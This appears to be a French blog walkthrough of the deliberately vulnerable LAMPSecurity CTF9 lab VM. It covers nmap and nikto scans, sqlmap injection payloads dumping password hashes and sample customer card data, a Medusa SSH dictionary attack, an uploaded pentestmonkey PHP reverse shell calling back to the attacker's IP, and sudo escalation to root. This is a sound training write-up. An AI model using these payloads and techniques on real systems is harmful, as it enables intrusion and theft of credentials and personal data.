





# LAMPSecurity: CTF9

Lecture recommandée : [Walkthrough sur le challenge LAMPSecurity: CTF5](/CTF-VulnLabs/lampsecurity-CTF5)

[LAMPSecurity](https://sourceforge.net/projects/lampsecurity/) est un projet conçu par
[le chercheur en sécurité madirish2600](https://www.vulnhub.com/author/madirish2600,75/), qui nous gratifie d'un ensemble de machines virtuelles volontairement vulnérables. L'objectif est de trouver et d'exploiter des vulnérabilités sur chacune de ces VM, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. Ce _walkthrough_ sera consacré à la résolution complète de la dernière VM de la série, [LAMPSecurity CTF9](https://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/CTF9/). Vous voilà prévenus, attention aux spoilers.

## Recherche d'informations

Comme pour les autres challenges LampSecurity, [__netdiscover__](https://github.com/alexxy/netdiscover) est utilisé afin de retrouver l'adresse IP de la VM LAMPSecurity CTF9.

```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts

3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:10      1      60  Unknown vendor
192.168.56.100  08:00:27:e2:87:7b      1      60  PCS Systemtechnik GmbH
192.168.56.103  08:00:27:2d:1a:16      1      60  PCS Systemtechnik GmbH
```

192.168.56.101 est l'adresse IP de ma machine virtuelle [Kali](https://docs.kali.org/introduction/what-is-kali-linux), tandis que 192.168.56.103 correspond à l'adresse IP de la VM LAMPSecurity CTF9. L'outil [__nmap__](https://nmap.org/book/man.html) est lancé en premier afin de détecter les ports ouverts sur le serveur CTF9, d'identifier les services installés et d'obtenir des informations sur le système d'exploitation.

```console
root@blinils:~# nmap -sT -sV -p- 192.168.56.103

Nmap scan report for 192.168.56.103
Host is up (0.0013s latency).
Not shown: 65531 filtered ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 5.3 (protocol 2.0)
80/tcp   open  http       Apache httpd 2.2.15 ((CentOS))
443/tcp  open  ssl/https?
3306/tcp open  mysql      MySQL 5.1.69
MAC Address: 08:00:27:2D:1A:16 (Oracle VirtualBox virtual NIC)
```

Il semble possible de [se connecter à distance avec SSH](https://en.wikipedia.org/wiki/Secure_Shell) au serveur LAMPSecurity CTF9 (port 22), et on y retrouve également un serveur Web Apache 2.2.15 (ports 80/443) ainsi qu'une base de données MySQL (port 3306), tout comme les VM précédentes. Pour chacun de ces services, il est désormais temps de partir à la chasse aux vulnérabilités. Le serveur Web semble a priori le plus alléchant pour commencer ; le site qu'il va falloir analyser de fond en comble est le site vitrine de l'entreprise fictive _LAMPSecLabs_.



## Recherche de vulnérabilités avec nikto

Après avoir parcouru manuellement le site, un peu de recherche automatisée ne fera pas de mal avec [__nikto__](https://cirt.net/nikto2-docs/), un outil d'audit pour serveurs Web.

```console
root@blinils:~# nikto -h 192.168.56.103
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.103
+ Target Hostname:    192.168.56.103
+ Target Port:        80
+ Start Time:         2019-01-03 05:07:09 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.2.15 (CentOS)
+ Retrieved x-powered-by header: PHP/5.3.3
--snip--
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /logs/: Directory indexing found.
+ OSVDB-3092: /logs/: This might be interesting...
+ OSVDB-3093: /db.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ /test.php: Output from the phpinfo() function was found.
--snip--
+ /admin/login.php: Admin login page/section found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8345 requests: 0 error(s) and 25 item(s) reported on remote host
+ End Time:           2019-01-03 05:07:39 (GMT1) (30 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Outre la détection des versions de PHP (5.3.3) et d'Apache (2.2.15 CentOS), l'outil nikto a repéré [une page phpinfo()](http://php.net/manual/fr/function.phpinfo.php) qui affiche de nombreuses informations « sur PHP, concernant sa configuration courante : options de compilation, extensions, version, informations sur le serveur, et l'environnement (lorsqu'il est compilé comme module), environnement PHP, informations sur le système, chemins, valeurs générales et locales de configuration, en-têtes HTTP et la licence PHP ». Et notamment...

```
System		Linux lampseclabs.localdomain 2.6.32-279.el6.i686 #1 SMP Fri Jun 22 10:59:55 UTC 2012 i686
Build Date	Dec 11 2013 03:16:27
```

Il s'agit d'une information très utile, si jamais des [failles système](https://fr.wiktionary.org/wiki/local_root_exploit) venaient à être nécessaires
[pour une élévation de privilèges](https://www.exploit-db.com/local/) sur le serveur. Désormais, l'heure est à l'exploitation des vulnérabilités Web !

## Cross-Site Scripting sur la page /admin/login.php

Une _Cross-Site Scripting_, abrégée XSS, est l'une des failles de sécurité les plus répandues dans les applications Web. Elle peut être utilisée par un attaquant pour provoquer un comportement du site Web différent de celui désiré par le créateur de la page. Cette vulnérabilité est due à une validation incorrecte, côté serveur, des entrées provenant de l'utilisateur. Lors de l'accès à certaines pages du site Web, des paramètres HTTP (en-têtes, GET, POST) ou des éléments entrés par l'utilisateur sont réécrits directement dans la réponse du serveur, sans avoir été correctement validés, filtrés, nettoyés côté serveur. Un attaquant pourra alors injecter du code malveillant au lieu de données légitimes.



En remplaçant ici le paramètre ```message``` par du code Javascript, celui-ci sera réécrit dans la réponse du serveur et s'exécutera dans le navigateur du client. Si le code JavaScript utilisé ici est relativement bénin, il est possible de se servir de cette vulnérabilité pour créer des liens malveillants qui, une fois cliqués par la victime, déclencheront l'exécution du code malveillant dans son navigateur. Il s'agit du cas d'exploitation typique : l'exploitation de ces failles amène à la compromission et au vol de données privées d'un utilisateur. La première stratégie d'un attaquant consiste en général à la récupération d'un cookie pour ensuite usurper l'identité de sa cible.

Cependant, cette vulnérabilité n'entrera pas dans la résolution de cette VM. En revanche, l'injection SQL sur cette même page ```login.php```, si.

## Injection SQL sur la page /admin/login.php

Ce formulaire de connexion consiste en deux champs : un login (paramètre ```username```) et un mot de passe (paramètre ```password```). Ces données sont envoyées [avec la méthode HTTP POST](https://developer.mozilla.org/fr/docs/HTTP/M%C3%A9thode/POST) puis traitées par le serveur qui renverra le message de confirmation susmentionné. Or une personne malveillante [n'aura pas la même vision qu'un internaute légitime](https://en.wikipedia.org/wiki/Thinking_outside_the_box) et se posera alors les questions suivantes : le serveur vérifie-t-il si ce que fournit l'utilisateur correspond bien à ce qui est attendu ? que se passerait-t-il si, au lieu d'un login composé de caractères alphanumériques, le serveur devait recevoir et traiter une centaine de caractères spéciaux ? et si, au lieu de caractères spéciaux aléatoires, ils étaient spécifiquement conçus de telle sorte à ce qu'il soit possible d'interagir avec le serveur et la base de données ? et pourquoi pas récupérer intégralement, grâce à ce code, le contenu de la base de données ?

Pour un attaquant, le but du jeu est de modifier le fonctionnement d'origine d'une fonction, d'un programme ou d'un script, en y insérant des données non prévues. Les failles dites d'injection surviennent lorsqu'il n'y a pas de contrôle, de filtrage ou de validation sur les données entrantes. Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, __SQLMap__ vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL...

```console
root@blinils:~# sqlmap -u "https://192.168.56.103/admin/index.php" --dbms=MySQL --data="username=test&password=test"
--snip--
[23:00:21] [INFO] testing if the target URL content is stable
[23:00:21] [WARNING] POST parameter 'username' does not appear to be dynamic
[23:00:22] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[23:00:22] [INFO] testing for SQL injection on POST parameter 'username'
--snip--
[23:00:27] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable 
--snip--
[23:01:18] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable 
--snip--

sqlmap identified the following injection point(s) with a total of 306 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: username=-4235" OR 9281=9281#&password=test

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=test" OR SLEEP(5)-- QDzg&password=test
---
[23:02:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 6.8
web application technology: PHP 5.3.3, Apache 2.2.15
back-end DBMS: MySQL >= 5.0.12
[23:02:11] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.103'
```

En moins de deux minutes, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le premier paramètre testé ```username``` est vulnérable aux injections SQL. Le deuxième paramètre ```password``` est sans doute également injectable, mais l'injection SQL ici ne se fera que sur le premier paramètre ```username```. Après plusieurs tentatives, SQLMap récupère le nom de chaque base de données trouvée avec ```--dbs```...

```console
root@blinils:~# sqlmap -u "https://192.168.56.103/admin/index.php" --dbms=MySQL --data="username=test&password=test" --dbs
--snip--
[23:02:48] [INFO] fetching database names
[23:02:48] [INFO] fetching number of databases
[23:02:48] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[23:02:48] [INFO] retrieved: 4
[23:02:48] [INFO] retrieved: information_schema
[23:02:52] [INFO] retrieved: lampsec
[23:02:54] [INFO] retrieved: mysql
[23:02:55] [INFO] retrieved: test
available databases [4]:
[*] information_schema
[*] lampsec
[*] mysql
[*] test
```

... mais également les tables ```--tables``` de la base de données lampsec ```-D lampsec```...

```console
root@blinils:~# sqlmap -u "https://192.168.56.103/admin/index.php" --dbms=MySQL --data="username=test&password=test" -D lampsec --tables
--snip--
[23:03:11] [INFO] fetching tables for database: 'lampsec'
[23:03:11] [INFO] fetching number of tables for database 'lampsec'
[23:03:11] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[23:03:11] [INFO] retrieved: 5
[23:03:11] [INFO] retrieved: category
[23:03:13] [INFO] retrieved: contact
[23:03:14] [INFO] retrieved: content
[23:03:15] [INFO] retrieved: customers
[23:03:17] [INFO] retrieved: user
Database: lampsec
[5 tables]
+-----------+
| user      |
| category  |
| contact   |
| content   |
| customers |
+-----------+
```

... ou encore toutes les données stockées dans la table ```user``` !

```console
root@blinils:~# sqlmap -u "https://192.168.56.103/admin/index.php" --dbms=MySQL --data="username=test&password=test" --dump -D lampsec -T user
--snip--
[23:05:45] [INFO] fetching columns for table 'user' in database 'lampsec'
[23:05:45] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[23:05:45] [INFO] retrieved: 6
[23:05:46] [INFO] retrieved: user_id
[23:05:47] [INFO] retrieved: user_name
[23:05:49] [INFO] retrieved: user_password
[23:05:52] [INFO] retrieved: user_display
[23:05:55] [INFO] retrieved: user_picture
[23:05:57] [INFO] retrieved: user_jobtitle
[23:06:00] [INFO] fetching entries for table 'user' in database 'lampsec'
[23:06:00] [INFO] fetching number of entries for table 'user' in database 'lampsec'
--snip--
[23:07:29] [INFO] recognized possible password hashes in column 'user_password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: lampsec
Table: user
[5 entries]
+---------+---------------+--------------------+--------------+-------------------------------+----------------------------------+
| user_id | user_name     | user_display       | user_picture | user_jobtitle                 | user_password                    |
+---------+---------------+--------------------+--------------+-------------------------------+----------------------------------+
| 1       | administrator | NULL               | NULL         | NULL                          | dab64765f3d4fc29ced777be274337ea |
| 2       | justin        | Justin Klien Keane | member1.jpg  | Security Researcher           | b6e4e4d617ec2406cea4555a5c40e137 |
| 3       | bob           | Bob Anonymous      | bob_anon.jpg | Privacy Specialist            | 93b542f0c7a6f2279fc94f44b013baf1 |
| 4       | eve           | Evil Eve           | member3.jpg  | Surveillance and Interception | 4c4999ac17adcef1a5a75fab71e5c857 |
| 5       | alice         | Alice Secret       | member4.jpg  | Cryptographer                 | fdfaf065cbbfe6e453229e536924b0f1 |
+---------+---------------+--------------------+--------------+-------------------------------+----------------------------------+
```

Non seulement __SQLMap__ peut identifier et exploiter des injections SQL, mais il est aussi en mesure de lancer des [attaques par dictionnaire](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf), dès lors qu'il identifie des hashs de mots de passe dans une base de données. Avec son dictionnaire par défaut ```/usr/share/sqlmap/txt/wordlist.zip```, SQLMap retrouve les mots de passe de trois utilisateurs : ```invisible``` (eve), ```billybob``` (bob) et ```hacking``` (administrator). Une recherche sur [__CrackStation__](https://crackstation.net/) puis sur [__HashKiller__](https://www.hashkiller.co.uk/md5-decrypter.aspx) permet d'obtenir les mots de passe manquants.



```
dab64765f3d4fc29ced777be274337ea MD5 : hacking
b6e4e4d617ec2406cea4555a5c40e137 MD5 : madirish.net
93b542f0c7a6f2279fc94f44b013baf1 MD5 : billybob
4c4999ac17adcef1a5a75fab71e5c857 MD5 : invisible
fdfaf065cbbfe6e453229e536924b0f1 MD5 : $investment$
```

Enfin, on parvient à extraire la table ```customers``` de la base de données, où sont stockées les informations personnelles et bancaires des clients de LAMPSecLabs... oops!

```console
Database: lampsec
Table: customers
[8 entries]
+----+------------------+----------------------------+--------------+-------------------------------+-----------------------------------+----------+------------+-----------+
| id | ccn              | email                      | phone        | company                       | address                           | lastname | cardtype   | firstname |
+----+------------------+----------------------------+--------------+-------------------------------+-----------------------------------+----------+------------+-----------+
| 1  | 4929597982490216 | jdoe@example.com           | 215-555-5555 | Foo Corp.                     | 1 No Way, Springfield OH          | Doe      | visa       | John      |
| 2  | 5187594592045450 | mrbig@example.com          | 800-555-5555 | Expensive Financial           | 32 Wall Stree, New York City, NY  | Big      | mastercard | Adam      |
| 3  | 4532320014916572 | beth@example.com           | 340-555-5555 | Designer Delivery             | 512 Wisconson Ave, Washington, DC | Piazza   | visa       | Beth      |
| 4  | 4556677062764704 | chuck@example.com          | 710-555-5555 | Andercorp                     | PO Box 5322, Crown Heights, CA    | Flight   | visa       | Charles   |
| 5  | 4716963701268852 | susan.mccormac@example.com | 445-555-5555 | Worldwide Health Solutions    | 512 Riverside Dr., Sunnyvale, CA  | McCormac | visa       | Susan     |
| 6  | 5584427594534230 | richard@example.com        | 888-555-5555 | Electric Iron                 | 212 Industrial Lane, Chicago, IL  | Dripple  | mastercard | Richard   |
| 7  | 342348714249117  | cynthia.turner@example.com | 556-555-5555 | Statewide Logistics LLC       | 50 Drury Lane, Brighton OH        | Turner   | amex       | Cynthia   |
| 8  | 349875331264122  | zeldas@example.com         | 761-555-5555 | Conductive Manufacturing Corp | 6 West 31 Street, Pittsburg PA    | Steaning | amex       | Zelda     |
+----+------------------+----------------------------+--------------+-------------------------------+-----------------------------------+----------+------------+-----------+
```

## Attaque par dictionnaire sur les accès SSH de la VM CTF9

Nous sommes donc en mesure de nous constituer deux dictionnaires, l'un contenant des noms d'utilisateurs et l'autre des mots de passe. L'objectif est de déterminer si les utilisateurs sont précautionneux en matière de sécurité, ou s'ils réutilisent le même mot de passe un peu partout... Habituellement, pour trouver les mots de passe de Bob, d'Alice, de Justin ou encore d'Eve, [plusieurs techniques sont possibles](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) : [les attaques par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consistent à tester, de manière exhaustive, toutes les combinaisons possibles ; [les attaques par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking) qui consistent à tester un sous-ensemble de mots ou de combinaisons placés dans un fichier texte ; ou bien [les attaques par social engineering](https://en.wikipedia.org/wiki/Social_engineering_(security)), qui visent à accéder à des informations confidentielles par la manipulation de personnes.

```console
root@blinils:~# cat lampsec_SSHusers.txt 
root
justin
bob
eve
alice

root@blinils:~# cat lampsec_SSHpasswords.txt
hacking
madirish.net
billybob
invisible
$investment$
```

Plutôt que de tester les vingt-cinq combinaisons à la main, l'outil [__Medusa__](http://foofus.net/goons/jmk/medusa/medusa.html) va automatiser cette attaque par dictionnaire !

```console
root@blinils:~# medusa -h 192.168.56.103 -U lampsec_SSHusers.txt -P lampsec_SSHpasswords.txt -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: billybob (3 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: invisible (4 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: $investment$ (5 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: justin (2 of 5, 1 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: justin (2 of 5, 1 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: justin Password: madirish.net [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: bob (3 of 5, 2 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: bob (3 of 5, 2 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: bob (3 of 5, 2 complete) Password: billybob (3 of 5 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: bob Password: billybob [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: eve (4 of 5, 3 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: eve (4 of 5, 3 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: eve (4 of 5, 3 complete) Password: billybob (3 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: eve (4 of 5, 3 complete) Password: invisible (4 of 5 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: eve Password: invisible [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: billybob (3 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: invisible (4 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: $investment$ (5 of 5 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: alice Password: $investment$ [SUCCESS]
```

Bingo ! Seule la personne derrière le compte ```root``` a opté pour un mot de passe différent de celui de l'interface d'administration du site Internet. Cela dit, dans l'éventualité où les mots de passe n'auraient pas été si faciles que cela à deviner, il aurait tout de même été possible d'obtenir un shell sur la VM.

## Formulaire d'upload de l'IHM admin et mise en place d'un reverse shell

En effet, parmi les fonctionnalités du portail d'administration de _LAMPSecLabs_, on y trouve un formulaire d'upload de fichiers images. Or cette fonctionnalité n'est pas filtrée, car après plusieurs tests, on constate qu'il est possible d'uploader n'importe quel type de fichier, et pas seulement des JPG, des PNG ou des BMP...

Il est ainsi possible de transférer [un script malveillant](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) afin d'interagir avec le serveur, d'y exécuter des commandes arbitraires et d'en prendre le contrôle. Le principe est le suivant : un reverse shell en PHP va être créé et déposé sur le serveur. Ce bout de code va créer une connexion sur le port 12345 entre le serveur LampSecurity CTF9 (192.168.56.103) et notre propre machine (192.168.56.101).



Le _reverse shell_ mis à disposition par [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) fonctionne toujours à merveille ! Extrait...

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.56.101';  // CHANGE THIS
$port = 12345;           // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Un clic sur le fichier [php-reverse-shell.php](files/php-reverse-shell.php) fraîchement uploadé, et un shell apparaît !



## Mauvaise gestion des privilèges d'administration via le fichier /etc/sudoers

L'élévation de privilèges est un jeu d'enfant ; en effet, la plupart des comptes [disposent de privilèges](https://doc.ubuntu-fr.org/sudoers) très permissifs, et sont autorisés à exécuter toutes les commandes via sudo. Il est alors possible de passer root avec la commande ```sudo su``` et le tour est joué. Les quatre comptes incriminés, c'est-à-dire ceux de Justin, de Bob, d'Alice et d'Eve sont concernés ; ils appartiennent effectivement au groupe ```wheel```.

```console
[justin@lampseclabs ~]$ id
uid=500(justin) gid=500(justin) groups=500(justin),10(wheel),100(users)

[justin@lampseclabs ~]$ sudo -l
Matching Defaults entries for justin on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User justin may run the following commands on this host:
    (ALL) NOPASSWD: ALL

[justin@lampseclabs ~]$ sudo su -
[root@lampseclabs ~]# id
uid=0(root) gid=0(root) groups=0(root)
```

Encore un immense merci à [madirish2600](https://www.vulnhub.com/author/madirish2600,75/) pour toutes ces chouettes VM LampSecurity !
